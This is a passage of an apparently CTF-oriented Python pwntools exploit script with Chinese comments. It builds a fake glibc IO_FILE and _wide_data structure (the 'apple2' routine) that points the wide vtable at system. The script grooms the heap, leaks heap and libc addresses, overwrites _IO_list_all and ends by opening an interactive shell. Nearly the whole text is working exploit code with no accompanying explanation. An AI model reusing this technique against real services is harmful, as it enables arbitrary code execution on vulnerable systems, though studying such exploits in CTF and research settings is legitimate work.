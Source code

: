 ```python
    payload += p64(0x0)*2
    payload += p64(IO_wfile_jumps)    #IO_wfile_jump (fp->0xd8)


    #wide_data
    payload += b'A'*0x18 
    payload += p64(0x0) #_wide_data->_IO_write_base设置为0 wide_data->0x18
    payload += b'A'*0x10
    payload += p64(0x0) #wide_data->_IO_buf_base设置为0 wide_data->0x30
    payload += b'A'*0xa8
    payload += p64(fake_IO_FILE+0x200) #wide_data->_wide_vtable 即wide_data->0xe0
    payload += b'A'*0xa0
    payload += p64(libc.sym['system'])
    payload = payload.ljust(size, b'A')
    return payload

if __name__=="__main__":
    s.recvuntil(b"easier\n")
    heap_base=eval(s.recvline()[:-1])&(~0xfff)
    print("heap base : ",hex(heap_base))
    #pause()
    for i in range(4):
        add(0x428)
    add(0x4f8) #4
    add(0x408) #5

    edit(3,0x428,b"a"*0x420+p64(0x10b0))
    edit(0,0x428,flat([
        0,0x10b1,
        heap_base+0x2e0-0x20,heap_base+0x2e0-0x20,
        heap_base+0x2c0,heap_base+0x2c0,
    ]))
    delete(4)
    add(0x418) # 4
    for i in range(3):
        add(0x428) #678
    add(0x4f8) #9
    #debu()
    delete(3) # 0x428 #8
    add(0x438) # 3
    dat=show(8)
    libc.address=u64(dat.ljust(8,b"\x00"))-(0x7f64c06d90f0-0x7f64c04da000)
    success(hex(libc.address))
    print("IO list all : ",hex(libc.sym["_IO_list_all"]-0x20))
    
    edit(8,0x20,flat([0,0,0,libc.sym["_IO_list_all"]-0x20]))
    print("heap base : ",hex(heap_base))
    #debu()
    delete(4)
    add(0x458) #4
    fakeio = apple2(libc,heap_base+0x2c0,0x400)
    edit(0,len((fakeio)),(fakeio))

    #debu('b _IO_wfile_overflow')
    menu(5)
    
    #s.sendline(b"cat flag")
    s.interactive()
```
